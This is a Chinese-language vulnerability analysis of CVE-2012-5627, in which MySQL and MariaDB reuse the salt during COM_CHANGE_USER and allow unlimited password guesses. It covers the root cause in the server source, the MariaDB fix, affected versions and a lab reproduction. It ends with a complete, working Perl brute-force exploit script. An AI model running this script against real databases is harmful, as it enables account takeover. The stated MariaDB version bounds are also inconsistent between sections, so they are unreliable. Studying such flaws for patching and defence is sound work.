


## CVE-2012-5627 CWE-522 MySQL 暴力破解

## 漏洞背景

**MySQL：** 一款广受欢迎的开源关系型数据库管理系统 (RDBMS)，以其可靠性、高性能和易用性而闻名。作为 LAMP (Linux, Apache, MySQL, PHP/Perl/Python) 技术栈的核心组件，它广泛应用于各种规模的应用程序和网站，从小型个人项目到大型企业级解决方案。MySQL 使用结构化查询语言 (SQL) 进行数据管理和操作，支持多种存储引擎以适应不同的性能和功能需求，并因其庞大的社区支持和丰富的文档资源而备受开发者青睐。

**`change_user` 命令：** MySQL 提供了一个 `change_user` 命令 (对应的协议命令是 `COM_CHANGE_USER`)，允许在当前已建立的连接中切换到另一个用户账户，而无需断开并重新建立连接。当客户端首次连接 MySQL 服务器时，服务器会发送一个随机的挑战字符串（SALT）给客户端。客户端使用这个 SALT 和用户密码的哈希来生成一个响应，然后发送给服务器进行验证。

**“盐”（salt）:**在密码学中，“盐”是一个随机数据，用于在哈希密码之前附加到密码上。这样做可以确保即使两个用户拥有相同的密码，它们的哈希值也会不同，从而增加密码破解的难度，特别是针对预计算哈希表（如彩虹表）的攻击。

**CWE-522( Insufficiently Protected Credentials)：**“凭证保护不足”，指的是当应用程序在传输或存储认证凭证（如密码、密钥、会话令牌等）时，没有使用足够强大的安全机制来防止这些凭证被未经授权地拦截或获取。这种不足可能包括以明文形式存储或传输凭证、使用弱加密算法、硬编码凭证或未能充分保护凭证免受内存篡改等情况，从而使攻击者更容易窃取或滥用这些凭证，进而可能导致账户接管、数据泄露或其他未经授权的访问。

## 漏洞原理

Oracle MySQL 和低于 5.5.29 的 Oracle MySQL 和 MariaDB 5.5.x、低于 5.3.12 的 5.3.x 和低于 5.2.14 的 5.2.x 在同一个已建立的连接中使用 `change_user` 命令尝试切换用户时，**服务器不会重新生成或发送新的 SALT**。它会沿用当前连接初始化时使用的那个 SALT。这使得远程身份验证用户可以进行暴力破解密码猜测攻击。

**请求切换用户 --> 服务器发送 salt 且不会更新（CWE-522）--> 不会限制登录次数 --> 结合 salt 暴力破解密码**

## 漏洞定位

分析 MySQL 5.5.23 源码。

在 **sql\sql_parse.cc** 文件中，第 **939** 行的 case 语句用于处理 `COM_CHANGE_USER` 命令，用于在已建立的连接中切换用户。没有对 `COM_CHANGE_USER` 命令的失败尝试次数进行限制。攻击者可以在同一个连接中连续多次尝试不同的用户名和密码组合，进行暴力破解攻击。同时，在用户认证失败后，代码没有引入任何延迟机制。攻击者可以在短时间内连续发送多个 `COM_CHANGE_USER` 请求，快速验证不同的密码组合。

```c
  case COM_CHANGE_USER:
{
    bool rc;
    status_var_increment(thd->status_var.com_other); // 增加 com_other 命令计数器

    thd->change_user(); // 准备切换用户
    thd->clear_error(); // 清除可能的错误

    // 设置认证所需的数据位置
    net->read_pos = (uchar*)packet;

    // 保存当前的数据库长度、名称、用户连接、安全上下文和字符集设置
    uint save_db_length = thd->db_length;
    char *save_db = thd->db;
    USER_CONN *save_user_connect = thd->user_connect;
    Security_context save_security_ctx = *thd->security_ctx;
    CHARSET_INFO *save_character_set_client = thd->variables.character_set_client;
    CHARSET_INFO *save_collation_connection = thd->variables.collation_connection;
    CHARSET_INFO *save_character_set_results = thd->variables.character_set_results;

    // 进行用户认证
    rc = acl_authenticate(thd, 0, packet_length);

    // 通知审计系统用户变更
    MYSQL_AUDIT_NOTIFY_CONNECTION_CHANGE_USER(thd);

    if (rc) // 认证失败
    {
        // 恢复之前的安全上下文、用户连接和字符集设置
        my_free(thd->security_ctx->user);
        *thd->security_ctx = save_security_ctx;
        thd->user_connect = save_user_connect;
        thd->reset_db(save_db, save_db_length);
        thd->variables.character_set_client = save_character_set_client;
        thd->variables.collation_connection = save_collation_connection;
        thd->variables.character_set_results = save_character_set_results;
        thd->update_charset(); // 更新字符集
    }
    else // 认证成功
    {
#ifndef NO_EMBEDDED_ACCESS_CHECKS
        // 如果之前有用户连接，减少其连接计数
        if (save_user_connect)
            decrease_user_connections(save_user_connect);
#endif /* NO_EMBEDDED_ACCESS_CHECKS */
        // 释放之前保存的数据库名称和安全上下文中的用户名
        my_free(save_db);
        my_free(save_security_ctx.user);
    }
    break;
}
```

## 漏洞修复

在 MySQL 中，并未增加多余修改，只引入了延迟`sleep(1)`。

在 MariaDB 中，增加了对 `thd->failed_com_change_user` 变量的检查。如果该计数器的值大于或等于 3（即连续三次 `COM_CHANGE_USER` 尝试失败），则直接返回一个 `ER_UNKNOWN_COM_ERROR` 错误，并且不再继续进行用户认证过程，这限制了攻击者在一个连接中进行密码暴力破解的次数。同时，在用户认证失败后，调用 `my_sleep(1000000)` 函数引入了延迟。这会显著降低暴力破解的速度，即使攻击者试图通过多次快速尝试来猜测密码，也会因为每次失败后的延迟而难以在短时间内完成大量尝试。

```c
/*
  to limit COM_CHANGE_USER ability to brute-force passwords,
  we only allow three unsuccessful COM_CHANGE_USER per connection.
*/
if (thd->failed_com_change_user >= 3)
{
  my_message(ER_UNKNOWN_COM_ERROR, ER(ER_UNKNOWN_COM_ERROR), MYF(0));
  rc= 1;
}
```

## 影响版本

Oracle MySQL：5.5.29 之前的版本

MariaDB：

- 5.5.x 系列：5.5.12 之前的版本
- 5.3.x 系列：5.3.12 之前的版本
- 5.2.x 系列：5.2.14 之前的版本

## 环境搭建

启动 Docker 环境，MySQL 版本为 5.5.23。管理员用户为 root，密码为 12345，进入容器命令行，输入 mysqld_safe 启动 mysql。同时创建了一个普通用户 testuser，密码为 testpwd，其具有一个默认数据库 test，用于测试目的。



## 漏洞复现

运行 EXP 文件，可以看到利用 root 用户、密码 12345 及 test 数据库，成功爆破出 testuser 的密码 testpwd。也能成功使用 testuser 用户爆破出 root 用户密码。



## EXP分析

Perl 脚本会首先使用有效用户名和密码通过 `Net::MySQL` 模块连接目标MySQL服务器，获取必要的认证信息（如salt等）。

如果连接成功，它会获取一个初始的盐值 (`$mysql->{salt}`)。

然后，读取用户提供的密码列表文件，准备进行爆破尝试。

对于每个密码，它会使用初始获得的那个**固定盐值**来计算哈希，并尝试通过 `CHANGE_USER` 命令以 `$crackuser` 和当前尝试的密码登录。

如果某个密码尝试成功，脚本会打印 `[*] Cracked! --> [破解的密码]` 并退出。

如果密码列表尝试完毕仍未成功，脚本会结束。

```perl
#!/usr/bin/perl
use strict;
use warnings;
use Net::MySQL;
use Term::ReadLine;

$|=1;

my $term = Term::ReadLine->new('mysql cracker');

print "[+] Enter MySQL server IP address(default 127.0.0.1): ";
my $host = $term->readline('> ') || '127.0.0.1';

print "[+] Enter database name(default test) ";
my $db = $term->readline('> ') || 'test';

print "[+] Enter the target username to crack(default root): ";
my $crackuser = $term->readline('> ') || 'root';

print "[+] Enter the valid username to authenticate with((default testuser)): ";
my $user = $term->readline('> ') || 'user';

print "[+] Enter the valid user's password(default testpwd): ";
my $password = $term->readline('> ') || 'testpwd';

print "[+] Enter path to password list file(default password.lst): ";
my $passfile = $term->readline('> ') || 'password.lst';

print "[+] Connecting to MySQL server...\n";

my $mysql = Net::MySQL->new(
    hostname => $host,
    database => $db,
    user     => $user,
    password => $password,
    debug    => 0,
);

# 打开密码文件
open(my $fh, '<', $passfile) or die "[-] Cannot open password file '$passfile': $!\n";

print "[+] Starting brute-force against user '$crackuser' using passwords from '$passfile'\n";

while (my $currentpass = <$fh>) {
    chomp $currentpass;

    my $vv = join "\0",
        $crackuser,
        "\x14" .
        Net::MySQL::Password->scramble(
            $currentpass, $mysql->{salt}, $mysql->{client_capabilities}
        ) . "\0";

    if (defined $mysql->_execute_command("\x11", $vv)) {
        print "[*] Cracked! --> $currentpass\n";
        close $fh;
        exit;
    } 
}

close $fh;
print "[-] Password not found in list.\n";
```

## 参考链接

[Oracle MySQL / MariaDB - Insecure Salt Generation Security Bypass - Linux remote Exploit](https://www.exploit-db.com/exploits/38109)

[MDEV-3915 COM_CHANGE_USER allows fast password brute-forcing · atcurtis/mariadb@44307f6](https://github.com/atcurtis/mariadb/commit/44307f6739731081b46e917aac06b5715638e68c#diff-63e8ebf88d9284969b752c9680d4f5aa488e9a4132bdeca169a547cb77302407)
